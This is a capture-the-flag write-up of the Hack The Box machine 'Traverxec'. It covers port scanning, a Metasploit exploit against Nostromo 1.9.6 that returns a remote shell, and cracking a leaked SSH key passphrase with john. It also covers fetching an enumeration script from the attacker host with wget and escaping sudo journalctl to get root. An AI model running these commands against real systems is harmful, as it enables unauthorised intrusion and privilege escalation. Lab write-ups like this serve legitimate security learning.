

# Hack The Box - Traverxec - Writeup by <a href="https://montyshyama.me/">Monty Shyama</a>

<p align="center">
  
</p>

# Enumeration

Run a Full Nmap Scan to find all the open ports & the services associated with them.

```
#!/bin/bash
echo Grabbing ports...
ports=$(nmap -p- --min-rate 1000 -T4 $1 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)  
echo Ports grabbed!
echo Scanning...
nmap -sC -sV -Pn -p $ports $1 $2 $3
```

<p align="center">
  
</p>

Port 80 contains a webpage. A usual Directory brute-forcing on the page shows nothing interesting to work upon.

<p align="center">
  
</p>

The Nmap scan also reveals that it is running Nostromo Web Server (Version: 1.9.6). 
This version contains Directory Traversal Remote Command Execution Vulnerability.

# Initial Foothold

Lets use Metasploit module to exploit <a href="https://www.rapid7.com/db/modules/exploit/multi/http/nostromo_code_exec">this</a> vulnerability.
Start the PostgreSQL database & the Metasploit using this command:

```
msfdb run
```

<p align="center">
  
</p>

Configure the exploit and run it. It will return a Command Shell.

```
use exploit/multi/http/nostromo_code_exec
set rhosts 10.10.10.165
set lhost tun0
run
```

<p align="center">
  
</p>

Use the following Python one-liner to spawn a TTY shell.

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

And, we are on the box!

# Privilege Escalation

While on the box, we found 'backup-ssh-identity-files' in the following directory:

```
/home/david/public_www/protected-file-area
```

<p align="center">
  
</p>

It contains a Backup SSH Private Key. To list out the contents of this file, use the following command:

```
zcat backup-ssh-identity-files.tgz
```

<p align="center">
  
</p>

Save this key on the local machine and try to brute-force it to find a possible candidate for the passphrase. Use the following commands:

```
./ssh2john.py id_rsa > id_rsa.hashes
john -w /usr/share/wordlists/rockyou.txt --format=SSH id_rsa.hashes
john --show id_rsa.hashes
```

<p align="center">
  
</p>

The Passphrase found is ```hunter```. Lets use this SSH Private Key to login into the machine as user ```david```

```
chmod 600 id_rsa
ssh -i id_rsa david@10.10.10.165
```

<p align="center">
  
</p>

And, finally the user flag is retrieved.

<p align="center">
  
</p>

# Getting a Root Shell

Lets transfer Local Linux Enumeration & Privilege Escalation Checks script to the compromised machine via Python server.
The script can be found <a href="https://github.com/rebootuser/LinEnum">here.</a>

* Run Python Server on the Local Machine containing the script (in the same path) via this command:

```
python3 -m http.server 80
```

<p align="center">
  
</p>

* On the target machine, type the following command to download the script:

```
wget http://10.10.14.6/linenum.sh
```

<p align="center">
  
</p>

* Run the exploit script with thorough-tests enabled:

```
chmod +x linenum.sh
./linenum.sh -t
```

<p align="center">
  
</p>

* Once the scan finishes, it finds a potential password hash in the directory ```/var/nostromo/conf/.htpasswd``` which wasn't useful for further foothold.

<p align="center">
  
</p>

* There is also a ```server-stats.sh``` script in the directory ```/home/david/bin```

<p align="center">
  
</p>

GTFOBins <a href="https://gtfobins.github.io/gtfobins/journalctl/">blog</a> contains a good way to abuse ```journalctl``` (running with ```sudo``` privileges) for escalating privileges.

* Use the following command to start the ```server-stats``` service:

```
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```

<p align="center">
  
</p>

* Type ```!/bin/bash``` to spawn an interactive system shell.

<p align="center">
  
</p>

* And, we are root!

Finally, the root flag is retrieved.

<p align="center">
  
</p>
